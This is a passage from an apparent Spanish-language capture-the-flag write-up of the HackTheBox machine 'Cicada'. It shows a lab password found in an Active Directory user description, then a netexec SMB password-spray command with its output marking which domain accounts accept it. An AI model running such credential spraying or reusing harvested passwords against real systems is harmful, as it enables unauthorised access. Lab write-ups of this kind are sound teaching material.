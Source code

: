 Al revisar los usuarios, vemos que el usuario `david.orelious` ha dejado su contraseña en la descripción de su propio usuario por si se olvida.. Muy buena práctica.
![Write-up Image](images/Screenshot_1.png)

`david.orelious:aRt$Lp#7t*VQ!3`

Con `netexec` podemos validar estas credenciales y vemos que son válidas para el usuario en cuestión.
```console
$ nxc smb 10.129.69.107 -u users.txt -p 'aRt$Lp#7t*VQ!3' --continue-on-success
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\support:aRt$Lp#7t*VQ!3 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\Administrator:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\Guest:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\krbtgt:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\CICADA-DC$:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\john.smoulder:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\michael.wrightson:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\emily.oscars:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE 
```

Aunque vemos que el único usuario que puede conseguir una consola a través de WinRM es `emily.oscars`
![Write-up Image](images/Screenshot_2.png)

# Enumerating SMB (x3) -> Foothold
Vamos a enumerar otra vez SMB, a ver si podemos acceder al recurso `DEV` el cual antes no teníamos permisos.
